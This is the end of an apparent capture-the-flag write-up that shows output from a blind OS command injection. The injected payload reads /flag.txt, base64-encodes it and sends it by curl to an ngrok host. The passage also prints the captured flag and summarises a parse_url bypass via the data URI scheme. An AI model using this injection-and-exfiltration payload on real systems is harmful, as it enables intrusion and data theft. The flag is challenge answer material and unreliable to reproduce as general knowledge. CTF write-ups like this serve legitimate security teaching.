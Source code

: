 ```shell
[+] We successfully received a POST body data:
total 80K
drwxr-xr-x   1 root root 4.0K Aug  5 05:44 .
drwxr-xr-x   1 root root 4.0K Aug  5 05:44 ..
drwxr-xr-x   1 root root 4.0K Nov 15  2022 bin
drwxr-xr-x   2 root root 4.0K Sep  3  2022 boot
drwxr-xr-x   5 root root  360 Aug  5 05:44 dev
drwxr-xr-x   1 root root 4.0K Aug  5 05:44 etc
-rw-rw-r--   1 root root   72 Aug  1 22:05 flag.txt
drwxr-xr-x   2 root root 4.0K Sep  3  2022 home
drwxr-xr-x   1 root root 4.0K Nov 15  2022 lib
drwxr-xr-x   2 root root 4.0K Nov 14  2022 lib64
drwxr-xr-x   2 root root 4.0K Nov 14  2022 media
drwxr-xr-x   2 root root 4.0K Nov 14  2022 mnt
drwxr-xr-x   2 root root 4.0K Nov 14  2022 opt
dr-xr-xr-x 196 root root    0 Aug  5 05:44 proc
drwx------   1 root root 4.0K Nov 15  2022 root
drwxr-xr-x   1 root root 4.0K Aug  5 05:44 run
drwxr-xr-x   1 root root 4.0K Nov 15  2022 sbin
drwxr-xr-x   2 root root 4.0K Nov 14  2022 srv
dr-xr-xr-x  13 root root    0 Aug  5 05:44 sys
drwxrwxrwt   1 root root 4.0K Nov 15  2022 tmp
drwxr-xr-x   1 root root 4.0K Nov 14  2022 usr
drwxr-xr-x   1 root root 4.0K Nov 15  2022 var
127.0.0.1 - - [05/Aug/2024 16:05:09] "POST / HTTP/1.1" 200 -
```

```shell
$ cat /flag.txt
[*] Sending payload: "" && cat /flag.txt | base64 | curl -d @- https://2322-{REDACTED}.ngrok-free.app/ #
[*] Final URL: data://text@localhost/plain,IiI[...]
```

```shell
[+] We successfully received a POST body data:
TFCCTF{0cc5c7c5be395bb7e7456224117aed15b7d7f25933e126cecfbff41bff12beeb}
127.0.0.1 - - [05/Aug/2024 16:05:27] "POST / HTTP/1.1" 200 -
```

- **Flag: `TFCCTF{0cc5c7c5be395bb7e7456224117aed15b7d7f25933e126cecfbff41bff12beeb}`**

## Conclusion

What we've learned:

1. PHP function `parse_url` host filter bypass via `data` URI scheme
2. Blind OS command injection